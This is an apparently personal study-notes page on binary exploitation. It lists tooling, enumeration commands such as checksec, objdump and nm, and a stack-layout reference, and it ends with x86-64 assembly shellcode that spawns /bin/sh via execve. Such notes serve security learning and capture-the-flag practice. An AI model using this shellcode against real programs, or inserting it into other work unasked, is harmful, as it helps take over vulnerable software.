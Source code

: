 Navigation: [[Directory]]

---
Note that this entire page needs to be reformatted. It's currently a mess.

## Table of Contents
1. Background
2. Tooling List
3. Initial enumeration
4. Basic Attacks
5. Stack Protections
6. Return Oriented Programming
7. Heap Exploitation
8. 
## Background
Binary exploitation is a very technical thing. It requires us to have a background in understanding assembly, how programs work, and how to reverse engineer these programs. Below, you'll find either useful images or links to help assist on some of these topics.

Stack layout (Note that canaries are usually stored right before `rbp`)
![[Stack_Layout.png]]



## Tooling List
1. [PwnTools](https://github.com/Gallopsled/pwntools)
2. [PwnDBG](https://github.com/pwndbg/pwndbg)
## Initial Enumeration
Checking the security configuration of a file:
```
checksec --file=<file>
```

We can disassemble and dump an entire program by using
```
objdump -M intel -d <program>
```

We can dump addresses using
```
nm -a <program>
```

## Basic Attacks
#### Building Shellcode
Shellcode to spawn a shell:
``` assembly
.globl _start
_start:
.intel_syntax noprefix
	mov rax, 59            # syscall number of execve
	lea rdi, [rip+binsh]   # "/bin/sh"
	mov rsi, 0             # NULL
	mov rdx, 0             # NULL
	syscall                # execve("/bin/sh", NULL, NULL)
binsh:
	.string "/bin/sh"
```

